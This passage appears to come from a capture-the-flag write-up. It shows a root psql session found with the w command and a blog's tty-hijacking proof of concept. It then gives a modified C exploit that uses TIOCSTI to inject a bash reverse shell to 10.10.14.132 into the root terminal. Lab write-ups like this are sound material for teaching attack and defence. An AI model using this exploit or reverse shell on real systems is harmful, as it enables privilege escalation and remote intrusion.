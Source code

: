 The `w` command provides a snapshot of currently logged-in users and the processes they are running. Specifically, it shows the tty session by root is being used to interact with the postgres database.

```bash
(remote) postgres@download:/tmp$ w
 15:21:47 up 19 min,  6 users,  load average: 0.23, 0.25, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
wesley   pts/0    10.10.14.132     15:03   14:28   0.08s  0.08s -bash
root     pts/8    127.0.0.1        15:21   27.00s  0.09s  0.05s /usr/lib/postgresql/12/bin/psql
```

While exploring potential exploits for root tty sessions, I stumbled upon an interesting [blog post](https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking) about hijacking root tty sessions. The PoC for this exploit requires an interactive shell, which is fulfilled by the interactive root login.

_PoC from the blog post_

```bash
# su -s /bin/sh - nobody
No directory, logging in with HOME=/
$ /tmp/exploit
exit
echo Payload as $(whoami)
$ # echo Payload as $(whoami)
Payload as root
```

I modified the PoC code to execute a reverse shell payload.

_exploit.c_

```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>

int main() {
    int fd = open("/dev/tty", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    char *x = "exit\nbash -i >& /dev/tcp/10.10.14.132/9005 0>&1\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
```
